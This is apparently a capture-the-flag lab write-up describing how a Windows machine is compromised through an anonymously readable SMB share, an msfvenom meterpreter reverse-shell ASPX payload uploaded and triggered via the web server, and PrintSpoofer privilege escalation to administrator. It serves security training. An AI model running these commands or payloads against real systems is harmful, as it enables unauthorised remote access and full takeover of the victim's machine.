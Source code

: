 ## Enumeration
First we run an nmap scan on the ip given which reveals 2 web servers and smb servers.

Looking at the http website for this there is nothing significant there.
So we can enumerate the smb shares on this server.

`nmap --script=smb-enum-* HOST-IP -oN smb_enum.nmap`

## Recon
We find a peculiar share named `/nt4wrksv` on it.

Logging into it using smbclient: `smbclient //HOST-IP/nt4wrksv` and pasword is blank.

We see a passwords file with base64 encoded passwords in it. I thought this could be useful but it wasn't.

Bit of the dead end here.
So I did a gobuster search on the web server running on port `49663`. We find a directory there called `nt4wrksv`. 
We can access the passwords.txt file on this web server meaning if we upload a reverse shell to this share and trigger it using the web server we can work with something.

## Exploitation
So I made a payload using msfvenom to upload into the share using smbclient.

To get the info on arch google the service info form the nmap scan.

`msfvenom -p windows/x64/meterpreter/reverse_tcp -a x64 LHOST=tun0 LPORT=4444 -f aspx -o rev.aspx`

We upload this to nt4wrksv share using the `put` command.
Now we set up a handler on metasploit.

`use exploit/multi/handler\
 set payload windows/x64/meterpreter/reverse_tcp\
 set lhost tun0\
 set lport 4444\
 run\
`

Now that we have this setup we can trigger the rev.aspx either by a curl command or by manually going there in a web browser.

`curl http://HOST-IP:49663/nt4wksv/rev.aspx`

The reason I used a meterpreter shell rather than a normal reverse shell is because I can execute all linux commands on meterpreter and it works on windows server.

We get a meterpreter shell now. We can navigate over to `C:/Users/Bob/` where we have our user.txt file.

## Privilege Escalation
if we see the `whoami /priv` , it will list all privileges accessible for the user Bob.

We can see here that `SeImpersonatePrevilige` is enabled. Hence, we can a use a tool called [printspoofer](https://github.com/dievus/printspoofer) to get root access.

We download this onto our machine and upload through the `upload` command in meterpreter and run this: `PrintSpoofer.exe -i -c cmd`

Now we have root access. We can go to the directory `c:/users/administartor/desktop` and print out the root flag.
